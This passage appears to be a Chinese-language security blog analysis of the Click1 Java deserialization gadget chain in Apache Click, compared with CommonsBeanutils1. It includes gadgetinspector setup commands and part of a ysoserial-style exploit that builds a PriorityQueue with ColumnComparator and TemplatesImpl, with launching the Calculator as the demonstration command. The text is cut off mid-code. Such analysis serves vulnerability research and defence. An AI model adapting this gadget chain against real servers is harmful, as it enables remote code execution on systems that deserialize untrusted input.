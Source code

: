 
## 0x02 Click1 反序列化利用分析

该链的作者artsploit在今年分析openAM项目时现找的一条利用链，这条利用链和CommonsBeanutils1有着很多相似之处，所以我把他们放在一起对比着分析。作者在自己的分析文章中讲了是如何发现这条利用链的，我们就跟随大佬的脚本看一看整个链的发现过程。

### <a class="reference-link" name="0x1%20%E5%8F%91%E7%8E%B0%E8%BF%87%E7%A8%8B"></a>0x1 发现过程

借助开源工具[gadgetinspector](https://github.com/JackOfMostTrades/gadgetinspector)帮助我们分析潜在的反序列化利用链

```
git clone https://github.com/JackOfMostTrades/gadgetinspector.git
cd gadgetinspector
./gradlew shadowJar
```

[![](https://p3.ssl.qhimg.com/t010df95b640c8a4c11.png)](https://p3.ssl.qhimg.com/t010df95b640c8a4c11.png)

通过该工具会找到很多可以的利用链，具体能不能用需要人工判断。值得注意的是ColunmnComparator的compare方法会调用getProperty，这和CommonsBeanutils1惊人的相似，需要好好的分析下其中的逻辑。

### <a class="reference-link" name="0x2%20%E6%9B%BF%E4%BB%A3BeanComparator"></a>0x2 替代BeanComparator

打开Column文件，在compare代码中会调用this.column的getProperty方法

[![](https://p5.ssl.qhimg.com/t01a9787dd921e12b5f.png)](https://p5.ssl.qhimg.com/t01a9787dd921e12b5f.png)

之后会调用一些列的函数到达Method.invoke执行row对象中的getXXX函数。在构造利用代码的时候需要指定column对象的name字段为outputProperties。

[![](https://p3.ssl.qhimg.com/t01da91adea6367a819.png)](https://p3.ssl.qhimg.com/t01da91adea6367a819.png)

结合之前的利用链分析，把BeanComparator替换为ColumnComparator，如下图所示

[![](https://p2.ssl.qhimg.com/t0160ac96eb8f0c15a4.png)](https://p2.ssl.qhimg.com/t0160ac96eb8f0c15a4.png)

### <a class="reference-link" name="0x3%20%E7%BC%96%E5%86%99%E5%88%A9%E7%94%A8%E4%BB%A3%E7%A0%81"></a>0x3 编写利用代码

完整代码上传至github上[https://github.com/BabyTeam1024/ysoserial_analyse/blob/main/Click1.java](https://github.com/BabyTeam1024/ysoserial_analyse/blob/main/Click1.java)，主要代码如下

```
public static void main(String[] args) throws Exception `{`
    final Object templates = createTemplatesImpl("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
    // mock method name until armed
    final Column column = new Column("lowestSetBit");
    column.setTable(new Table());
    Comparator comparator = (Comparator) Reflections.newInstance("org.apache.click.control.Column$ColumnComparator", column);

    // create queue with numbers and basic comparator

    final PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2,comparator);
    // stub data for replacement later
    queue.add(new BigInteger("1"));
    queue.add(new BigInteger("1"));

    // switch method called by comparator
    column.setName("outputProperties");

    // switch contents of queue
    final Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
```